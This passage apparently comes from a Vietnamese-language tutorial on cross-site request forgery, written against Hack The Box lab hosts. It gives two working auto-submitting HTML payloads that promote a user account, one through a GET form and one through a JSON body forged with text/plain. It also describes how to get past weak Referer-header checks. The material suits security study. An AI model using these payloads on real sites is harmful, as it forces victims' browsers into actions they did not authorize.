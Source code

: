 **Ví dụ về payload**:
```html
<html>
 <body>
 <form method="GET" action="http://vulnerablesite.htb/profile.php">
  <input type="hidden" name="promote" value="htb-stdnt" />
  <input type="hidden" name="csrf" value="1692981700" />
  <input type="submit" value="Submit request" />
 </form>
 <script>
  document.forms[0].submit();
 </script>
 </body>
</html>
```

#### 4. **Vượt qua các biện pháp bảo vệ CSRF dựa trên tiêu đề HTTP**

Một số ứng dụng web sử dụng **biện pháp bảo vệ CSRF** thông qua các tiêu đề HTTP, ví dụ như kiểm tra giá trị trong **Referer header** hoặc **Origin header**. Tuy nhiên, nếu biện pháp này được thực hiện sai cách, kẻ tấn công có thể dễ dàng bỏ qua.

**Cách khai thác**:
Giả sử một ứng dụng kiểm tra sự hiện diện của tên miền trong `Referer header`. Nếu chỉ kiểm tra một phần của URL (chẳng hạn như kiểm tra sự có mặt của `vulnerablesite.htb` trong header), kẻ tấn công có thể giả mạo `Referer header` và gửi yêu cầu từ một server khai thác, ví dụ: `http://exploitserver.htb/somepath/vulnerablesite.htb`.

#### 5. **CSRF với JSON Request Body**

Các ứng dụng hiện đại thường yêu cầu dữ liệu gửi đi dưới định dạng JSON. Mặc dù việc gửi payload CSRF qua JSON có thể gặp khó khăn do hạn chế về **Content-Type** (vì CSRF payload thông thường chỉ hỗ trợ các loại như `application/x-www-form-urlencoded`), nhưng trong một số trường hợp, các lỗi cấu hình CORS hoặc kiểm tra tiêu đề Content-Type sai cách có thể cho phép kẻ tấn công gửi yêu cầu chứa JSON.

**Cách khai thác**:
Chúng ta có thể tạo một CSRF payload gửi dữ liệu dưới dạng JSON mặc dù sử dụng Content-Type không chính xác, nhờ vào việc ứng dụng không kiểm tra chính xác tiêu đề `Content-Type`.

**Ví dụ về payload**:
```html
<html>
 <body>
  <form method="POST" action="http://csrf.vulnerablesite.htb/profile.php" enctype="text/plain">
   <input type="hidden" name='{"promote": "htb-stdnt", "dummykey": "dummyvalue"}' />
  </form>
  <script>
   document.forms[0].submit();
  </script>
 </body>
</html>
```

---